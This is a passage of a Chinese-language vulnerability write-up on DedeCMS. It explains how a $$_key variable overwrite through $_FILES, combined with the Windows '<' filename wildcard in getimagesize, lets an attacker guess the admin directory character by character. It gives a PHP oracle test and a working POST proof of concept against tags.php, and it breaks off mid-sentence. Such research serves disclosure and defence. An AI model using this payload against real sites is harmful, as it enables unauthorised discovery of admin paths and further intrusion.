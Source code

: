注意\$\$\_key这一句，变量\$key取自于\$\_FILE，由于\$*FILE可控自然\$key也可控,此处理论上是可以覆盖任意变量，但是前面有个正则判断不能出现cfg*\|GLOBALS。(但是应该还可以覆盖其他变量此处感觉还可以深挖)

本人出发点是找个可以利用\<\<通配符猜解后台目录，所以只要\$\$\_key参数可控就可以达到目的。

但在这之前有个if(!defined(\'DEDEADMIN\'))的判断,这个很好绕过设置tmp\_name为0或者1.jpg含.
就可以绕过。

最后关键的一点就是要让文件存在还和不存在返回不同的内容就要控制type参数了。

当目录文件存在的时候 返回正常页面。当不存在的时候返回：Upload filetype
not allow !

举个例子

    <?php
    // ./dedecms/favicon.ico
    if(@getimagesize($_GET['poc'])){
        echo 1;
    }else {
        echo 0;
    }
    ?>
    get:
    http://localhost/test.php?poc=./d</favicon.ico
    返回：1

    http://localhost/test.php?poc=./a</favicon.ico
    返回：0

    http://localhost/test.php?poc=./de</favicon.ico
    返回：1

    http://localhost/test.php?poc=./ded</favicon.ico
    返回：1

    ........

### 复现

构造poc

    http://0-sec.org/tags.php

    post:

    dopost=save&_FILES[b4dboy][tmp_name]=./de</images/admin_top_logo.gif&_FILES[b4dboy][name]=0&_FILES[b4dboy][size]=0&_FILES[b4dboy][type]=image/gif

Common.inc.php
是被全局包含的文件，只要文件php文件包含了Common.inc.php都可以进行测试，以tags.php文件为例

当目录存在点时候
